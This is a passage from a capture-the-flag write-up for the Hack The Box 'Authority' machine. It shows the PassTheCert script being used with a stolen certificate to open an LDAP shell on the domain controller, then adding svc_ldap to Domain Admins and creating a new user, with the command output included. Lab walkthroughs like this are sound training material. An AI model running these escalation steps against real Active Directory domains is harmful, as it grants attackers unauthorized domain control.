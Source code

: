 Afterwards we can utilise those with the PassTheCert Python script to authenticate to the DC via LDAP.

```shell

python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222

```

This will provide us with a fair number of commands we can run, most notably we can create a new user and add a user to a group.

![](32.png)
## Root flag

The simplest way to proceed is to add the `svc_ldap` user to the local Administrators group or to Domain Admins.

```
add_user_to_group svc_ldap Administrators
add_user_to_group svc_ldap "Domain Admins"
```

![](33.png)

The other route is to create our own user and then add that user to a group, which is the better route to take so we do not make any changes to existing users.

```
add_user arth0s
Attempting to create user in: %s CN=Users,DC=authority,DC=htb
Adding new user with username: arth0s and password: L|PcV[Ua)=%+M(W result: OK
```

The user we add will be assigned a random complex password, we're free to change that and add the user to one of the aforementioned groups.
